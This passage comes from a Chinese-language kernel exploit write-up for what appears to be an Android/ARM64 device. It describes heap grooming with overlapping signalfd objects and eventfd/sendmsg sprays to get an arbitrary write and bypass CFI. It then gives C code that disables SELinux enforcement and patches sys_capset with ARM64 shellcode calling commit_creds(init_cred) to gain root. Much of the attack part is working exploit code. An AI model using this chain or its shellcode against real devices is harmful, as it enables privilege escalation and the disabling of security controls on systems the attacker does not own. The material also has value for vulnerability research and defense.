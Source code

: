  

2. 利用被重叠的 signalfd 覆盖 free 的对象，修改 freelist 为 ipa_testbus_mem | 0x40100， 下一次分配的为地址 ipa_testbus_mem | 0x40100，  
再通过堆喷 eventfd(0, EFD_NONBLOCK) 和 sendmsg 结合，这样 eventfd 会 block 住 sendmsg，不让堆内容进行释放。  
从而 eventfd_ctx 结构体的地址 = ipa_testbus_mem | 0x40100，同时 eventfd_ctx+0x20（count 的字段）可以被用户态通过 write 来修改。  
就可以把 B5F00 地址写入 count 字段，就相当于写入到 ipa_testbus_mem | 0x40100+0x20 处，

 

3. 这时候 free 所有的 eventfd, 并且重新利用重叠的 signalfd 设置 freelist 为 ipa_testbus_mem | 0x40100 + 0x20, 等再次 signalfd 分配就会分配到 B5F00 地址，这样通过 write 调用写入最终的 block 描述符了 0x00e8000080000751，即绕过了 cfi。

后续 root 部分
==========

1. 关掉 selinux  
2.patch 这个函数 sys_capset 来替换成 shellcode，  
3. 以及将 init's credentials 替换到本进程中即可完成提权。

```
1. 关掉selinux
/* selinux_enforcing address in the remapped kernel region */
uint64_t selinux_enforcing_addr = base + 0x80000 + SELINUX_ENFORCING;
 
debug_printf("Before: enforcing = %x\n", *(uint32_t *)selinux_enforcing_addr);
 
/* setting selinux_enforcing to 0 */
*(uint32_t *)selinux_enforcing_addr = 0;
 
debug_printf("After: enforcing = %x\n", *(uint32_t *)selinux_enforcing_addr);
 
2. get root.
 
#define LO_DWORD(addr) ((addr) & 0xffffffff)
#define HI_DWORD(addr) LO_DWORD((addr) >> 32)
 
/* Preparing addresses for the shellcode */
uint64_t sys_capset_addr = base + 0x80000 + SYS_CAPSET;
uint64_t init_cred_addr = kaslr_leak + INIT_CRED;
uint64_t commit_creds_addr = kaslr_leak + COMMIT_CREDS;
 
uint32_t shellcode[] = {
    // commit_creds(init_cred)
    0x58000040, // ldr x0, .+8
    0x14000003, // b   .+12
    LO_DWORD(init_cred_addr),
    HI_DWORD(init_cred_addr),
    0x58000041, // ldr x1, .+8
    0x14000003, // b   .+12
    LO_DWORD(commit_creds_addr),
    HI_DWORD(commit_creds_addr),
    0xA9BF7BFD, // stp x29, x30, [sp, #-0x10]!
    0xD63F0020, // blr x1
    0xA8C17BFD, // ldp x29, x30, [sp], #0x10
 
    0x2A1F03E0, // mov w0, wzr
    0xD65F03C0, // ret
};
 
/* Saving sys_capset current code */
uint8_t sys_capset[sizeof(shellcode)];
memcpy(sys_capset, sys_capset_addr, sizeof(sys_capset));
 
/* Patching sys_capset with our shellcode */
debug_print("Patching SyS_capset()\n");
memcpy(sys_capset_addr, shellcode, sizeof(shellcode));
```